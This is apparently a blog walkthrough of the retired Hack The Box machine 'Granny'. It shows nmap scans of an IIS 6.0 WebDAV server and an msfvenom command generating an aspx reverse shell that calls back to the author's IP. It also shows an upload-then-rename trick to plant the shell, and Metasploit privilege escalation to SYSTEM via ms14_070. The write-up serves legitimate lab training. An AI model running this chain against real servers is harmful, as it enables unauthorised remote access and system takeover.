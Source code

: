 ```yaml
---
layout: post
title: "Granny"
categories: HTB-Walkthrough
---
```



![granny](/assets/img/granny/granny1.png)


Granny is another OSCP-like box from the HTB 'retired' archive.

Nmap first as always.

<h3>Nmap</h3>

`nmap -sV -Pn -p- --min-rate 10000 10.10.10.15 |tee -a gran.txt`

```

Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Browsing to the website reveals an 'under construction' message.

Scanning again with nmap, with the more robust and agressive `-A` flag might reveal more.

`nmap -A -p80 10.10.10.15 |tee -a gran.txt`

```

Nmap scan report for 10.10.10.15
Host is up (0.096s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 04 Mar 2020 21:06:04 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops                                                                                           
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                                           
                                                                                                                   
TRACEROUTE (using port 80/tcp)                                                                                     
HOP RTT      ADDRESS                                                                                               
1   96.75 ms 10.10.14.1                                                                                            
2   98.21 ms 10.10.10.15                                                                                           
                                                                                                                   
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .              
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds 

```

The results suggest that the service is a 'WebDav' server, we can connect and enumerate them from the
 terminal with both `curl` and `cadaver`.

I'll be using [cadaver](http://www.webdav.org/cadaver/) this time, and with time permitting, I'll repeat these steps with curl.



<hr width="250" size="6">


<h3>Cadaver-WebDav-Tool</h3>

The command to connect with the service in this case is simple.

`cadaver http://10.10.10.15`

![cadaver](/assets/img/granny/granny-cadaver.png)

Spend some time browsing the webdav, use the `get` command to download files, and read them. Cadaver is an useful tool
to get comfortable with, and will come in useful, both in HTB pentesting labs, and the PWK labs in preperation for the OSCP exam.


<hr width="250" size="6">


The 'aspnet_client' folder suggests that we can probably upload an evil aspx reverse shell to gain access
to the target. Just as cadaver allows us to `get` files, it also allows us to `put` files onto the target.

We can generate a payload with msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx lhost=10.10.14.14 lport=443 -o evil.aspx
```

`put evil.aspx` attempts the upload, but fails `403 Forbidden`.

We can try to rename the payload to evil.txt, upload it, then use the `move` command to change the extension back to .aspx once its on the server.

```
dav:/> put evil1.txt
Uploading evil1.txt to `/evil1.txt':
Progress: [=============================>] 100.0% of 2810 bytes succeeded.

dav:/> move evil1.txt evil.aspx
Moving `/evil1.txt' to `/evil.aspx':  succeeded.
```

We need to use msfconsole's `exploit/multi/handler` with the correct payload set to get the returning shell.

To trigger the exploit, browse to 'http://10.10.10.15/evil.aspx'


![meterpreter](/assets/img/granny/granny-exploit-met.png)


```
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```


<h3>Privilege Escalation</h3>

To escalate to 'System' we can use the windows exploit suggester.

```

meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

I selected ms14_070 from the list and give it a try...

```

msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2


msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > exploit

[*] Started reverse TCP handler on 192.168.106.128:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.

```

We can return to our meterpreter session by using the command `sessions 1`.

now when we check our status, we can confirm that the exploit worked and we now have System privs.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now we just have to find the flags.

```
meterpreter > cat user.txt
70xxxxxxxxxxxxxxxxxxxxxxxxxxxxd1

meterpreter > cat root.txt
aaxxxxxxxxxxxxxxxxxxxxxxxxxxxxe9
```

:)



